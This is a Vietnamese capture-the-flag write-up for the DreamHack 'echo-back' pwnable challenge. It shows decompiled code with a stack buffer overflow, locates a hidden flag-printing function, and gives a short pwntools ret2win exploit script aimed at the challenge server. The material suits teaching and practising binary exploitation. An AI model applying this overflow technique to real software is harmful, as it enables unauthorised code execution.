



# echo-back---Write-up-----DreamHack
Hướng dẫn cách giải bài echo-back cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 19/1/2026

## 1.Mục tiêu cần làm
Đầu tiên xem bài này như nào đã



Giờ hãy xem code nào, bài này chỉ có 2 hàm chính thôi.

```C
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  signal(14, 0LL);
  alarm(30u);
  puts("echo-back service");
  sub_4012D0();
  puts("\nbye");
  return 0LL;
}
```

```C
ssize_t sub_4012D0()
{
  ssize_t v0; // rax
  size_t v1; // rbx
  _BYTE v3[136]; // [rsp+0h] [rbp-88h] BYREF

  puts("Input:");
  v0 = read(0, v3, 512uLL);          // Buffer Overflow
  if ( v0 <= 0 )
  {
    puts("bye");
    _exit(0);
  }
  v1 = v0;
  write(1, "You said: ", 10uLL);
  return write(1, v3, v1);
}
```

Khi ta ghi hơn 136 byte, nó sẽ đè vô RBP và RIP. Mục tiêu của ta là chiếm shell hoặc in flag ra bằng cách điều hướng.

## 2. Cách thực thi
Bài này tác giả giấu 1 hàm in flag ra, các bạn `Shift + F12`





Double click vô `flag.txt`, ta thấy được hàm in ra flag. Nó bắt đầu tại `0x401340`. Bài này NO PIE nên ta xài được luôn cái này. Vậy chỉ cần đè RIP bằng địa chỉ này là win.

vậy là xong, bài này khá là dễ. Bài này mình mất tận 2h ngồi mò nhưng quên mất `Shift + F12` 🥲. Thôi thì mong các bạn cho mình 1 star để mình có thêm động lực để viết tiếp thêm write up nha 🐧.


## 3. Exploit
```Python
from pwn import *

p = remote('host8.dreamhack.games', 19879)

ret = 0x40101a
win_addr = 0x401340

payload = b'A' * 136
payload += p64(ret)
payload += p64(win_addr)

p.sendafter(b'Input:', payload)

p.interactive()
```
